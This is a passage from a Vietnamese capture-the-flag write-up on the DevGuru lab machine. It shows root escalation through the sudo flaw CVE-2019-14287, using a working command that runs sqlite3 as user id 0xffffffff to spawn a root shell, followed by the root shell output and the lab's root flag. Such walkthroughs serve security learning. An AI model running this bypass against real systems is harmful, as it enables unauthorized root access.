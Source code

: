 Thật không may cho Devguru, với phiên bản của sudo v1.8.28, có mã [CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287){:target="\_blank"}, cho phép kẻ tấn công có thể chạy dưới ALL sudoer nhưng bypass blacklists, bỏ qua cấu hình !root ở trên bằng cách sudo với craft user id `\#$((0xffffffff))`.

```shell
frank@devguru:/home/frank$ sudo -u#$((0xffffffff)) sqlite3 /dev/null '.shell /bin/bash'
root@devguru:/home/frank# id
uid=0(root) gid=1000(frank) groups=1000(frank)
```

Giải thích một chút, ở đây `0xffffffff` tương đương với số nguyên không dấu 4294967295 ~ 2^32-1. Đây là giá trị lớn nhất mà một số nguyên 32-bit không dấu có thể biểu diễn được, thường được sử dụng trong các ngôn ngữ lập trình như C/C++, ... Khi kết hợp với 1 số cấu hình sai trong tệp sudoers, nó có thể cho phép user có uid là 4294967295 (giá trị của 0xffffffff) leo lên quyền root.

```shell
sqlite> .help
...
.shell CMD ARGS...     Run CMD ARGS... in a system shell
...
```

=> Tóm lại, `sudo -u#$((0xffffffff)) sqlite3 /dev/null '.shell /bin/bash'` cho phép chạy một shell mới dưới quyền root.

```shell
root@devguru:/home/frank# cd /root
root@devguru:/root# ls
msg.txt  root.txt
root@devguru:/root# cat msg.txt

           Congrats on rooting DevGuru!
  Contact me via Twitter @zayotic to give feedback!


root@devguru:/root# cat root.txt
96440606fb88aa7497cde5a8e68daf8f
```
